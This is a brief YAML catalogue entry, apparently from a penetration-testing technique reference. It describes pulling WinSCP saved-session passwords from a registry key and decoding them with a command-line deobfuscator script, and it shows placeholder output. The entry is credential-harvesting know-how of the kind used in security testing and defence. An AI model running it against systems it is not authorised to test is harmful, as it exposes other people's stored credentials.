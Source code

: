 ```yaml
---
functions:
  enumeration:
    - description: Decode Saved Passwords
      code: |
           Required registry keys
        HKEY_CURRENT_USER\Software\Martin Prikryl\WinSCP 2\Sessions\*
        > python winscp-deobfuscator.py --hostname <ip> --username <username> --hash <encoded value>
          ==================================================
                WinSCP deobfuscation from command line      
          ==================================================
                          Host: ip
                          User: username
                      Password: decodedvalue
          --------------------------------------------------

resources: |
  https://github.com/unkn0wnsyst3m/scripts/blob/master/winscp-deobfuscator.py
---
```

